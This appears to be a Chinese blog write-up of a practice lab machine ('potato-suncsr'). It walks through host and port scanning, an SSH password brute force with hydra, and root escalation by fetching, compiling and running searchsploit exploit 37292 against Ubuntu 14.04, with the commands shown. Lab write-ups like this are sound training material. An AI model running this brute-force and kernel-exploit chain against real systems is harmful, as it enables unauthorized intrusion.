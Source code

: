 ```yaml
---
layout: post
title: potato-suncsr
subtitle: potato-suncsr
date: 2025-07-12 10:24
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: false
---
```

### 信息搜集

扫描发现主机 `192.168.163.133`

![image.png](https://img.ghostliner.top/NvGNLM.png)

扫描端口

![image.png](https://img.ghostliner.top/SUmsGq.png)

访问80端口，未发现有效信息，目录扫描发现 `/info.php` 

`whatweb` 未发现信息
### SSH爆破

```shell
hydra -l potato -P 字典2/字典.txt -vV ssh://192.168.163.133:7120
```

![image.png](https://img.ghostliner.top/Q688l8.png)

```shell
ssh -p 7120 potato@192.168.163.133
```
### 提权

进入目标机后，尝试sudo, find 提权失败，查看系统信息

```shell
cat /etc/issue
uname -a
```

![image.png](https://img.ghostliner.top/N5KzN9.png)

搜索相关漏洞

```shell
searchsploit ubuntu 14.04
```

![image.png](https://img.ghostliner.top/7OioDi.png)

```shell
# 复制文件
searchsploit -m 37292
# 传输到目标机
scp -P 7120 37292.c potato@192.168.163.133:~
```

在目标机上编译并执行

```shell
gcc 37292.c
./a.out
```

![image.png](https://img.ghostliner.top/BNYY9H.png)

找到flag
![image.png](https://img.ghostliner.top/vmiV9f.png)
